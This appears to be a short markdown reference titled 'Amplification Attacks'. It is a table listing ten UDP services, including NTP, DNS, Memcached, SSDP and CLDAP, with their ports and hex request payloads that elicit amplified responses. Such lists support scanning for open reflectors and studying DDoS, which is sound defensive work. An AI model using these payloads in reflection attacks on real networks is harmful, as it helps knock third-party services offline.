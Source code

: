# Amplification Attacks


|Protocol| Description |UDP Port | Request Payload HEX| 
|---| --- | ---| --- | 
|**NTP**| monlist command | 123 |`1700032a000000000000000000000000` | 
|**DNS**|  ANY google.com query| 53 |`17ea0100000100000000000106676f6f676c6503636f6d0000ff00010000290200000000000000` | 
|**Memcached**|  stat items |11211 | `5a4d0000000100007374617473206974` | 
|**SNMP**|  system description field using community string public | 161 |`302902010004067075626c6963a01c0204565adc5d020100020100300e300c06082b060102010101000500` |
|**CharGen**| one byte data "a" | 19 |`610a` |
|**RIPv1** | malformed request | 520 |`01010000000000000000000000000000`|
|**QOTD**| trigger a quote | 17 | `00`|
|**SSDP**| trigger response from UPnP SSDP service | 1900 |`4d2d534541524348202a20485454502f312e310a486f73743a3233392e3235352e3235352e3235303a313930300a53543a75706e703a726f6f746465766963650a4d616e3a22737364703a646973636f766572220a4d583a33`|
|**CLDAP**| searchrequest CLDAP | 389 | `30840000002d02010163840000002404000a01000a0100020100020100010100870b6f626a656374636c617373308400000000000a`|
|**NETBIOS**| NBSTAT query to get status | 137 | `e5d80000000100000000000020434b4141414141414141414141414141414141414141414141414141414141410000210001`|
